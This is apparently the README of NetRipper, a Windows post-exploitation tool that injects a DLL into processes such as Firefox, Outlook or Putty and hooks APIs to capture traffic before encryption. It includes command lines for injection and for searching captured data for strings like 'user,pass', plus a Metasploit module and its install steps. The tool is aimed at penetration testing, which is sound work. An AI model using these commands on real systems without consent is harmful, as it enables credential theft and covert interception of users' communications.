 # Description

NetRipper is a post exploitation tool targeting Windows systems which uses API hooking in order to intercept network traffic and encryption related functions from a low privileged user, being able to capture both plain-text traffic and encrypted traffic before encryption/after decryption. 

NetRipper was released at Defcon 23, Las Vegas, Nevada.

# Legal disclaimer

Usage of NetRipper for attacking targets without prior mutual consent is illegal. It is the end user's responsability to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program!

# Abstract

The post-exploitation activities in a penetration test can be challenging if the tester has low-privileges on a fully patched, well configured Windows machine. This work presents a technique for helping the tester to find useful information by sniffing network traffic of the applications on the compromised machine, despite his low-privileged rights. Furthermore, the encrypted traffic is also captured before being sent to the encryption layer, thus all traffic (clear-text and encrypted) can be sniffed. The implementation of this technique is a tool called NetRipper which uses API hooking to do the actions mentioned above and which has been especially designed to be used in penetration tests, but the concept can also be used to monitor network traffic of employees or to analyze a malicious application.

# Tested applications

NetRipper should be able to capture network traffic from: Putty, WinSCP, SQL Server Management Studio, Lync (Skype for Business), Microsoft Outlook, Google Chrome, Mozilla Firefox. The list is not limited to these applications but other tools may require special support.

# Components

```
NetRipper.exe - Configures and inject the DLL  
DLL.dll       - Injected DLL, hook APIs and save data to files  
netripper.rb  - Metasploit post-exploitation module
```

# Command line

```
Injection: NetRipper.exe DLLpath.dll processname.exe  
Example:   NetRipper.exe DLL.dll firefox.exe  

Generate DLL:

  -h,  --help          Print this help message  
  -w,  --write         Full path for the DLL to write the configuration data  
  -l,  --location      Full path where to save data files (default TEMP)  

Plugins:

  -p,  --plaintext     Capture only plain-text data. E.g. true  
  -d,  --datalimit     Limit capture size per request. E.g. 4096  
  -s,  --stringfinder  Find specific strings. E.g. user,pass,config  

Example: NetRipper.exe -w DLL.dll -l TEMP -p true -d 4096 -s user,pass  
```

# Metasploit module

```
msf > use post/windows/gather/netripper 
msf post(netripper) > show options

Module options (post/windows/gather/netripper):

   Name          Current Setting                  Required  Description
   ----          ---------------                  --------  -----------
   DATALIMIT     4096                             no        The number of bytes to save from requests/responses
   DATAPATH      TEMP                             no        Where to save files. E.g. C:\Windows\Temp or TEMP
   PLAINTEXT     true                             no        True to save only plain-text data
   PROCESSIDS                                     no        Process IDs. E.g. 1244,1256
   PROCESSNAMES                                   no        Process names. E.g. firefox.exe,chrome.exe
   SESSION                                        yes       The session to run this module on.
   STRINGFINDER  user,login,pass,database,config  no        Search for specific strings in captured data
```

Set PROCESSNAMES and run.

# Metasploit installation (Kali)

1. cp netripper.rb /usr/share/metasploit-framework/modules/post/windows/gather/netripper.rb
2. mkdir /usr/share/metasploit-framework/modules/post/windows/gather/netripper
3. g++ -Wall netripper.cpp -o netripper
4. cp netripper /usr/share/metasploit-framework/modules/post/windows/gather/netripper/netripper
5. cd ../Release
6. cp DLL.dll /usr/share/metasploit-framework/modules/post/windows/gather/netripper/DLL.dll

# PowerShell module

@HarmJ0y Added Invoke-NetRipper.ps1 PowerShell implementation of NetRipper.exe

# Plugins

1. PlainText - Allows to capture only plain-text data
2. DataLimit - Save only first bytes of requests and responses
3. Stringinder - Find specific string in network traffic

# Changelog

Version 1.0.1:
- Updated project to Visual Studio 2015
- Added support for "dynamic" function signatures
- Updated support for Chrome (tested with Chrome 49)
- Thread-safe Win32 API hooking

# To do

- Support multiple applications
- Support for x64 processes
- Thread-safe API hooking
- Monitor loading of DLLs and new processes

Any suggestion is appreciated!

# Author

Ionut Popescu, Senior Penetration Tester at Dell SecureWorks
Previously - Senior Security Consultant at KPMG Romania
